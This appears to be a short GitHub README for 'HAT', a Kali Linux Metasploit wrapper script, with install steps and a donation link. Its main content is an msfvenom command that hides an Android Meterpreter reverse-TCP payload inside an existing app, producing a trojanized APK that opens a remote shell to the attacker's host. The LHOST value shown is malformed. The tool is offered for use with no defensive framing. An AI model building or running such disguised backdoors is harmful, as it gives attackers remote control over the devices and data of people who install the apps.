 HAT PROJECT for KALI LINUX
##########################

*Clone - git clone https://github.com/BLACKRATTX/HAT-Metasploit-Reverse-Engineer-Tools

*Directory - cd /root/HAT-Metasploit-Reverse-Engineer-Tools

*Give permissions - chmod +x HAT.sh

*Execute - sh HAT.sh

*Generate the payloads with msfvenom -x command using existing android/windows applications.

*Example-  msfvenom -x /sdcard/test.apk -p android/meterpreter/reverse_tcp LHOST=0000.0.0.0 LPORT=4444 -o /sdcard/payload.apk


"IF YOU LIKE MY HARD WORK, GIMME A CUP OF COFFEE"

DONATE ME: https://www.paypal.me/blackratt505
